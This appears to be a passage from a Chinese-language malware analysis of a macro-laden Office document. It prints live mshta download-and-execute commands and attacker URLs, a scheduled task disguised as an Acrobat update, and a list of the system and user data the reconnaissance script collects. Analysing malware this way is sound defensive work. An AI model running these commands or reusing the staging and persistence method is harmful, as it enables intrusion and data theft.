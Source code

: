 [![](https://p1.ssl.qhimg.com/t01fd082b8669fe89ef.png)](https://p1.ssl.qhimg.com/t01fd082b8669fe89ef.png)

#### <a class="reference-link" name="0x01.%20%E6%A0%B7%E6%9C%AC%E5%88%86%E6%9E%90"></a>0x01. 样本分析

利用`olevba`工具提取的宏代码如下:<br>
其将执行的命令通过`hex编码`的形式在宏里面自己解码后隐藏执行<br>
所执行的命令为:

`mshta http://vnext.mireene.com/theme/basic/skin/member/basic/upload/search.hta /f`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_407_/t015c2d4702792d341c.png)

##### <a class="reference-link" name="search.hta"></a>search.hta

其主要内嵌的是`vbs`代码,请求`URL`以获取下一段的`vbs`代码,并且执行获取到的`vbs`代码

URL地址为:`http://vnext.mireene.com/theme/basic/skin/member/basic/upload/eweerew.php?er=1`

[![](https://p4.ssl.qhimg.com/t018e92dc19fedb21f0.png)](https://p4.ssl.qhimg.com/t018e92dc19fedb21f0.png)

##### <a class="reference-link" name="1.vbs"></a>1.vbs

下一段的`vbs`代码就是其**侦查者**的主体代码:

**1.信息收集部分:**

收集**本机名以及本机所在域的名称,ip地址,用户名称, %programfiles%下的文件, %programfiles% (x86)下的文件,安装软件信息,开始栏的项目,最近打开的项目,进程列表,系统版本信息,set设置信息,远程桌面连接信息, ,arp信息, %appdata%Microsoft下所有文件以及子文件信息,文档文件夹信息,下载文件信息,powershell文件夹下的文件信息，盘符信息,宏的安全性信息,outlook信息**等等

[![](https://p1.ssl.qhimg.com/dm/1024_328_/t01df0bdbe8daf66de1.png)](https://p1.ssl.qhimg.com/dm/1024_328_/t01df0bdbe8daf66de1.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_244_/t01f5af4907abf73b50.png)

**2.添加计划任务以布置下一阶段的载荷:**

伪装成`Acrobat`更新的任务

执行命令: `mshta http://vnext.mireene.com/theme/basic/skin/member/basic/upload/cfhkjkk.hta`

获取当前时间,延迟后执行`schtasks`创造该计划任务

[![](https://p1.ssl.qhimg.com/t019dcea9b2e9cde358.png)](https://p1.ssl.qhimg.com/t019dcea9b2e9cde358.png)

##### <a class="reference-link" name="cfhkjkk.hta"></a>cfhkjkk.hta

和`search.hta`一样,也是一样的中转的代码,URL为:`http://vnext.mireene.com/theme/basic/skin/member/basic/upload/eweerew.php?er=2`
